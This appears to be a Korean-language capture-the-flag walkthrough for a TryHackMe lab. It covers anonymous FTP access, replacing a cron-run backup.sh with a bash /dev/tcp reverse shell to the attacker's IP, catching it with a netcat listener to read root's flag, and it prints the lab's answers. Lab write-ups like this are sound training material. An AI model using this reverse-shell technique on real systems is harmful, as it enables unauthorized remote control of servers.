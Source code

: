 # Day 9 | Networking Anyone can be Santa!

## Workstation
- Virtual Box : VMware Fusion 12.1.2
- OS : kali-linux-2021.2

## Walkthrough
![attackbox](https://github.com/jasperkim425/Walkthrough/blob/main/TryHackMe/25%20Days%20of%20Cyber%20Security/Day%209/image/attackbox.png)

### Question #1: Name the directory on the FTP server that has data accessible by the "anonymous" user

> public

```
$ sudo ftp 10.10.65.80
```

위 명령어 사용 후 `anonymous`로 로그인 한다.

![anonymous](https://github.com/jasperkim425/Walkthrough/blob/main/TryHackMe/25%20Days%20of%20Cyber%20Security/Day%209/image/anonymous.png)

### Question #2: What script gets executed within this directory?

> backup.sh

로그인 성공 후 디렉터리를 조사하면 2개의 파일을 찾을 수 있는데 실행 가능한 파일은 `backup.sh` 이다.

![ls](https://github.com/jasperkim425/Walkthrough/blob/main/TryHackMe/25%20Days%20of%20Cyber%20Security/Day%209/image/ls.png)

### Question #3: What movie did Santa have on his Christmas shopping list?

> The Polar Express

디렉터리 안에 2개의 파일 중 shoppinglist.txt 파일을 `get` 명령어로 다운받아 확인한다.

![list](https://github.com/jasperkim425/Walkthrough/blob/main/TryHackMe/25%20Days%20of%20Cyber%20Security/Day%209/image/list.png)

![catlist](https://github.com/jasperkim425/Walkthrough/blob/main/TryHackMe/25%20Days%20of%20Cyber%20Security/Day%209/image/catlist.png)

### Question #4: Re-upload this script to contain malicious data (just like we did in section 9.6. Output the contents of /root/flag.txt!

Note that the script that we have uploaded may take a minute to return a connection. If it doesn't after a couple of minutes, double-check that you have set up a Netcat listener on the device that you are working from, and have provided the TryHackMe IP of the device that you are connecting from.

> THM{even_you_can_be_santa}

backup.sh 파일을 다운받는다.

![backup](https://github.com/jasperkim425/Walkthrough/blob/main/TryHackMe/25%20Days%20of%20Cyber%20Security/Day%209/image/backup.png)

![catbackup](https://github.com/jasperkim425/Walkthrough/blob/main/TryHackMe/25%20Days%20of%20Cyber%20Security/Day%209/image/catbackup.png)

리버스쉘을 얻기 위해 vi 편집기를 사용해 코드를 변경해준다.

```
#!/bin/bash

bash -i >& /dev/tcp/MY_IP/4444 0>&1
```

![bash](https://github.com/jasperkim425/Walkthrough/blob/main/TryHackMe/25%20Days%20of%20Cyber%20Security/Day%209/image/bash.png)

그리고 편집한 backup.sh 파일을 업로드하기 전 새로운 터미널을 열어 4444번 포트로 Netcat을 실행해 준다.

```
$ sudo nc -lvnp 4444
```

![nc](https://github.com/jasperkim425/Walkthrough/blob/main/TryHackMe/25%20Days%20of%20Cyber%20Security/Day%209/image/nc.png)

Netcat 리스너를 실행 후 ftp로 다시 접속해 `put` 명령어로 변경한 파일 backup.sh를 업로드 해준다.

![put](https://github.com/jasperkim425/Walkthrough/blob/main/TryHackMe/25%20Days%20of%20Cyber%20Security/Day%209/image/put.png)

업로드가 되면 Netcat 리스너에서 리버스쉘을 접속해 flag를 얻을 수 있다.

![flag](https://github.com/jasperkim425/Walkthrough/blob/main/TryHackMe/25%20Days%20of%20Cyber%20Security/Day%209/image/flag.png)
